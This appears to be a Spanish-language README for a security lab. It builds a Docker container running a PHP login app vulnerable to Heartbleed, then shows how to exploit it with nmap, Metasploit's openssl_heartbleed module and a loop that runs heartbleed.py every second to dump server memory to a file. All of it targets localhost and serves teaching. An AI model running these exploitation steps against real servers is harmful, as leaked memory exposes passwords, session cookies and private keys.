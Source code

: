 # Seguridad de Aplicaciones Web

Una vez clonado, actualizar los submodulos de los que depende la prueba de concepto

```bash
git submodule init
git submodule update
```

## Pasos para levantar el entorno de pruebas

Construir la imagen en Docker:

```bash	
docker build -t heartbleed-image-websegapp .
```

Crear un contenedor en base a la imagen abriendo los puertos y exponiendo los volumenes internos:

```bash
docker run  -p 80:80 -p 443:443 -e LOG_STDOUT=true -e LOG_STDERR=true -e LOG_LEVEL=debug -v ${PWD}/data/PHP-Login:/var/www/html  -v ${PWD}/data/mysql:/var/lib/mysql  --name heartbleed-server heartbleed-image-websegapp
```
## Verificar si el servidor es vulnerable 

Con NMAP:

```bash
nmap -sV –script=ssl-heartbleed
```

Con MSF:
```bash
msfconsole
```

Usamos el plugin para explotar la vulnerabilidad:
```bash
use auxiliary/scanner/ssl/openssl_heartbleed
```

Establecer el servidor victima y ponemos en modo dump el plugin:

```bash
set RHOSTS localhost
set verbose true
```

Explotamos la vulnerabilidad:

```bash
exploit
```

## Hacer dump de la memoria del servidor HTTP vulnerable:

Requisito: tener instalado python 2.7

Creamos el archivo donde vamos a hacer dump del servidor y vemos que va pasando en vivo:

```bash
truncate -s0 /tmp/heartbleed.out && tail -f /tmp/heartbleed.out
```

Ejecutamos el exploit cada un segundo y volcamos el contenido:

```bash
while true; do python heartbleed.py localhost >> /tmp/heartbleed.out; sleep 1; done
```

## License
[MIT](https://choosealicense.com/licenses/mit/)

